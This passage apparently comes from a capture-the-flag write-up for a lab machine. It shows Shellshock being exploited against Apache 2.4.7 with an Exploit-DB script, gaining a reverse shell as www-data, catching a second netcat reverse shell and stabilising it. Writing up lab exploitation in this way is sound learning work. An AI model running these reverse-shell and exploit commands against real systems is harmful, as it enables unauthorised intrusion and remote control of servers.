 Since the installed Apache version is outdated, I searched for known exploit that may work on the target (Apache 2.4.7). I found a vulnerability named "Shellshock". You can find a 
documentation that explains this vulnerability [here](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf). There is also an exploit available on [Exploit-DB](https://www.exploit-db.com/exploits/34900).

What is "Shellshock" :  
Shellshock is a vulnerability that cause a RCE (Remote Command Execution) on the target in [Bash](https://en.wikipedia.org/wiki/Bash_(Unix_shell)). From the documentation given by the OWASP : The vulnerability 
relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable.  

Now that we found a vulnerability on the target, and we have downloaded the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/34900), we can use it against the target :  
```
attacker@AttackBox:~/Documents/THM/CTF/0day$ python2 exploit.py payload=reverse rhost=10.10.4.147 lhost=10.14.32.60 lport=4242
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-sys/entropysearch.cgi
[*] 404 on : /cgi-sys/entropysearch.cgi
[-] Trying exploit on : /cgi-sys/defaultwebpage.cgi
[*] 404 on : /cgi-sys/defaultwebpage.cgi
[-] Trying exploit on : /cgi-mod/index.cgi
[*] 404 on : /cgi-mod/index.cgi
[-] Trying exploit on : /cgi-bin/test.cgi
[!] Successfully exploited
[!] Incoming connection from 10.10.4.147
10.10.4.147> whoami
www-data

10.10.4.147>
```

We have now a shell as `www-data` ! We can get the user.txt flag in `/home/ryan/user.txt` file.

## Privilege escalation

First, I will spawn another reverse shell using netcat and then I will stabilize it because the shell we have using the exploit is not the most convenient :  
```
attacker@AttackBox:~/Documents/THM/CTF/0day$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.4.147] 40548
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/home/ryan$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/home/ryan$
```

Now I just have to fully stabilize it by pressing CTRL+Z to background the reverse shell, then I use `stty -echo raw;fg`, and I have a fully stabilized shell.  
